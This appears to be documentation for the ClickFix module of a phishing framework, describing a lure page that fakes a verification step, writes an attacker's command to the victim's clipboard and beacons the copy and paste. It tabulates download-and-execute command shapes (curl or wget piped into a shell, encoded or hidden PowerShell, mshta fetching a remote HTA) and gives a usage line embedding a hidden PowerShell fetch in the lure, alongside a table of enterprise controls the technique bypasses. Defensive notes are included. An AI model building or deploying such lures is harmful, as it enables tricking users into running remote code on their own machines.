


# ClickFix: the paste layer

Every other technique in this framework steals a session. This one does not. The target is
asked to run a command, and the command runs with their own rights, on their own machine,
inside their own session - which is exactly why it is the answer to the controls that kill
tier 2.



## Why it beats a device-bound session

| Control | Stops AiTM (tier 2) | Stops ClickFix (tier 3) |
|---|---|---|
| Device-bound session (DBSC) | yes | **no** |
| CAE-aware session | yes | **no** |
| Phishing-resistant MFA / passkeys | yes | **no** |
| Conditional access (compliant device) | yes | **no** |
| Clipboard-write permission prompt | n/a | partially |
| Blocking `powershell -enc` / `mshta` / `curl|bash` | n/a | **yes** |
| User training ("never paste commands") | n/a | **yes** |

The bottom two rows are the whole defence, and they are the two the operator should assume are
in place before choosing this.

## What this framework provides, and what it does not

**Provides** (`core/clickfix.py`): the page, the fake verification step, the clipboard write,
the platform-specific instructions, and the beacon that reports the copy and the paste.

**Does not provide**: the payload. `--clickfix-command` is the operator's, and the module
refuses to render a page with an empty command rather than shipping a placeholder that looks
like one.

## The command shapes

Recognise the choice before making it:

| Platform | Shape | What it looks like in a process list |
|---|---|---|
| Windows | `powershell -w hidden -c "<payload>"` | a hidden PowerShell child of `explorer.exe` |
| Windows | `powershell -enc <base64>` | an encoded blob, no readable arguments |
| Windows | `mshta <url>` | a signed Microsoft binary fetching a remote HTA |
| Windows | `curl -s <url> \| powershell -` | a download piped into an interpreter |
| macOS | `osascript -e '<script>'` | AppleScript from a non-Apple parent |
| macOS | `curl -s <url> \| bash` | the same pipe, on a shell |
| Linux | `curl -s <url> \| bash`, `wget -qO- <url> \| sh` | the same pipe, on a shell |

## What the blue team sees



The single most reliable detection is the last one: the request leaves through the interpreter,
so it does not carry the browser's user agent or its TLS fingerprint. A campaign that spent
effort on JA3/JA4 parity loses that parity the moment the command runs.

## Defensive notes

1. **Clipboard permission**: prompt on clipboard writes from pages that are not the focused
   clipboard owner (Chrome and Edge already do).
2. **Interpreter arguments**: alert on `-enc`/`-EncodedCommand`, `-w hidden`, `mshta` with a
   URL, and any `curl|wget` piped into `sh`/`bash`/`powershell` - none of these are normal user
   activity.
3. **Process parentage**: an interpreter whose parent is `explorer.exe` (or a shell started from
   a browser-focused session) is the ClickFix signature.
4. **Egress**: block and alert on interpreter-initiated HTTPS to first-seen domains.
5. **Training**: the only control that addresses the actual mechanism is "never paste a command
   from a page into Run or a terminal", and it should be tested with the same regularity as
   phishing simulations.

## Running it

```bash
# the page, with the operator's own command
./bytephisher.py --clickfix-command 'powershell -w hidden -c "iwr http://x"' \
                 --clickfix-platform windows --clickfix-out ./lure/verify.html

# the page copies it, beacons the copy and the paste, and shows the detection notes
```

The page is self-contained (no external assets), and the beacon path is the campaign's own
`/__bh/beacon`, so the copy and the paste land in the same session record as everything else.
